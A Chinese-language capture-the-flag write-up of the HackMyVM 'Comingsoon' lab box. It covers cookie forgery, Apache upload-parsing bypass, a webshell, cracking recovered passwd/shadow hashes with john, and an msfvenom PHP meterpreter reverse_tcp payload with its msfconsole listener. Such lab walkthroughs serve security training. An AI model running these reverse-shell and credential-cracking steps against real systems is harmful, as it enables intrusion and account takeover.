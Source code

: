 ```yaml
---
title: 靶场—esay
data: 2022-1-3
tags: 	
	- 靶场
---
```


来自于HackMyVM的Comingsoon。难度属于简单

<!-- more -->

一开始还是nmap扫描查看版本信息

![image-20220211205925981](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931069.png)

得到了22和80，访问一下主页面看看。

80端口是一个网站![image-20220211210457228](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932946.png)

接着使用dirsearch爆破扫描目录看看

```
python dirsearch.py -u http://10.35.0.209/# -e php
```

![image-20220211211759606](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932883.png)

分别查看一下lincense.txt以及notes.txt，还有一个assets文件夹

![image-20220211212733797](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931636.png)

![image-20220211211905990](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932570.png)

![image-20220211211915200](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932988.png)

license.txt没什么用，notes.txt说的是

![image-20220211212017154](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932145.png)

大概意思是有上传，到处翻，抓包发现cookie不对劲，像是经过base64处理了。

![image-20220211213035107](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932919.png)

![image-20220211213057497](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932645.png)

将后面的值改为true，然后进行base64编码再刷新。在这里有个小知识点，如何判断是base64加密，base64的特征大概出现最多就是，第一种密文中会出现“=”,第二种字符串长度肯定会4整数、第三种字符串涵盖A-Z、0-9、a-z和+/特殊字符。

![image-20220211213938109](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932263.png)

刷新查看，就出现了一个upload的按钮，点进去查看是一个上传页面，开始各种上传绕过了！这里还有一个知识点，因为中间件是apache，在默认的配置下有存在解析漏洞的风险，第一个是默认的phtml后缀可解析成可执行脚本代码存在指定的版本中，第二个就是apache解析从最后的“.”开始依次向左识别，假如是1111.php.11111同样会识别成php脚本文件。

![image-20220212162824546](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932952.png)

接着直接使用蚁剑直接连接

![image-20220212162857302](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932095.png)

![image-20220212163227390](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180932935.png)

在里面发现user.txt 可惜没有权限访问

notes.txt里面提示了有备份文件，直接从根找一下吧。发现了备份文件，查看里面的文件

![image-20220212163402717](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933372.png)

将其下载下来打开查看，发现了保存的用户账户和密码

![image-20220212163603156](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933479.png)

然后利用kali的unshadow命令的输出结果重定向至名为comhash.txt的新文件，然后再利用john获得密码

```
unshadow passwd shadow >hash.txt
```

![image-20220212164751059](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933325.png)

kali自带密码字典rockyou.txt.gz解压命令 

```
gzip -d rockyou.txt.gz
```

![image-20220212165312486](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933937.png)

知道了用户名和密码之后本来想用ssh进行连接，发现连不上

![image-20220212165850908](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933679.png)

于是在用msf上传一个php木马，进行监听连接

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.17.0.137 lport=8877 R>2.phtml
```

进入msf进行监听状态

```
msfconsole 
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.17.0.137
set lport 8877
run
```

![image-20220212173420305](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933167.png)

然后进入到刚刚发现的assets中的img文件夹，点击上传成功的马子

![image-20220212180306658](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933206.png)

利用获取的用户查看user.txt 获取到管理员密码

之后登陆管理员账户查看root.txt 获取flag

![image-20220212181802911](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180933053.png)

